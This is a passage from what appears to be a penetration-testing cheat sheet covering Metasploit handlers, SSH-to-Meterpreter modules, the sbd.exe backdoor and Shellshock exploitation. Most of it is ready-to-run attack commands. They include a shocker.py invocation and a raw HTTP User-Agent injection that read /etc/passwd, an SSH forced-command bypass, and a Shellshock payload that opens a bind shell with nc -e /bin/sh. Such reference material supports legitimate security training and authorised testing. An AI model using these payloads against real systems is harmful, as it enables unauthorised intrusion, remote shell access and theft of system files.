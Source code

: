     Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r ‘

*   SSH to Meterpreter: [https://daemonchild.com/2015/08/10/got-ssh-creds-want-meterpreter-try-this/](http://web.archive.org/web/20171113221652/https://daemonchild.com/2015/08/10/got-ssh-creds-want-meterpreter-try-this/)

         use auxiliary/scanner/ssh/ssh_login
         use post/multi/manage/shell_to_meterpreter

*   SBD.exe

    sbd is a Netcat-clone, designed to be portable and offer strong encryption. It runs on Unix-like operating systems and on Microsoft Win32\. sbd features AES-CBC-128 + HMAC-SHA1 encryption (by Christophe Devine), program execution (-e option), choosing source port, continuous reconnection with delay, and some other nice features. sbd supports TCP/IP communication only. sbd.exe (part of the Kali linux distribution: /usr/share/windows-binaries/backdoors/sbd.exe) can be uploaded to a windows box as a Netcat alternative.

*   Shellshock

    *   Testing for shell shock with NMap

    `root@kali:~/Documents# nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/admin.cgi $ip`

    *   git clone [https://github.com/nccgroup/shocker](http://web.archive.org/web/20171113221652/https://github.com/nccgroup/shocker)

    `./shocker.py -H TARGET --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose`

    *   Shell Shock SSH Forced Command  
        Check for forced command by enabling all debug output with ssh

              ssh -vvv  
              ssh -i noob noob@$ip '() { :;}; /bin/bash'

    *   cat file (view file contents)

              echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {:;}; echo \\$(</etc/passwd)\\r\\nHost:vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80

    *   Shell Shock run bind shell

             echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {:;}; /usr/bin/nc -l -p 9999 -e /bin/sh\\r\\nHost:vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80
